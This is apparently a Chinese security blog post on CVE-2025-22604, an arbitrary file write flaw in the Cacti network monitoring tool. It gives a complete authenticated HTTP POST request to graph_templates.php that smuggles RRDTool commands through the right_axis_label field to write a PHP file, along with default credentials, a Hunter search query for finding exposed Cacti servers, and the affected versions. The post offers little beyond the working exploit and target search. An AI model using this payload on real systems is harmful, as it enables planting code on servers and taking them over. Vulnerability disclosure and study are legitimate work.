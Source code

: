 #  Cacti网络流量监测图形分析工具 任意文件写入漏洞 CVE-2025-22604   
原创 巨黑科  巨黑科   2025-02-17 07:28  
  
系统介绍  
  
  
Cacti是一款基于PHP、MySQL、SNMP及RRDTool构建的网络流量监测图形分析工具。该工具通过SNMP协议中的snmpget命令收集数据，并利用RRDTool生成图形化分析结果，帮助用户直观地了解网络流量情况。  
  
漏洞复现  
  
1、登录Cacti获取token（默认账号密码为admin / admin，首次登录强制修改密码）  
  
2、替换需要写入的文件内容  
```
POST /cacti/graph_templates.php?header=false HTTP/1.1
host: {{Hostname}}
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
content-length: 804
Origin: http://192.168.178.78
Connection: keep-alive
Referer: http://{host}/cacti/graph_templates.php?action=template_edit&id=297&csrf_timeout=true&csrf_timeout=true
Cookie: {{Cookie}}
Priority: u=0

__csrf_magic=sid%3A3363ef9d47d62372302b4941b790e92f5f749d9c%2C1735913031&name=PING+-+Advanced+Ping&graph_template_id=297&graph_template_graph_id=297&save_component_template=1&title=%7Chost_description%7C+-+Advanced+Ping&vertical_label=milliseconds&image_format_id=3&height=200&width=700&base_value=1000&slope_mode=on&auto_scale_opts=1&upper_limit=10&lower_limit=0&unit_value=&unit_exponent_value=1&unit_length=&right_axis=&right_axis_label=XXX%0Acreate+my.rrd+--step+300+DS%3Atemp%3AGAUGE%3A600%3A-273%3A5000+RRA%3AAVERAGE%3A0.5%3A1%3A1200%0Agraph+xxx2.php+-s+now+-a+CSV+DEF%3Aout%3Dmy.rrd%3Atemp%3AAVERAGE+LINE1%3Aout%3A%3C%3F%3Dphpinfo%28%29%3B%3F%3E%0A&right_axis_format=0&right_axis_formatter=0&left_axis_formatter=0&tab_width=30&legend_position=0&legend_direction=0&rrdtool_version=1.7.2&action=save
```  
  
搜索指纹  
  
  
Hunter app.name=="Cacti"  
  
利用条件  
  
Cacti <= 1.2.28  
  
      
![](https://mmbiz.qpic.cn/mmbiz_gif/WxOqWuMeib82iadWaeic5eibXFRz5I49MUvoBZpIbBHuPJdj5YQknyTbq7gAMicfch8xibiascj3QrnjHm47Q1BoRABlg/640?wx_fmt=gif&from=appmsg "")  
  
  
**免责声明**  
  
  
  
本文仅用于技术讨论与学习，利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者及本公众号不为此承担任何责任。  
  
长按下方二维码，关注巨黑科，学习漏洞信息！  
  
  
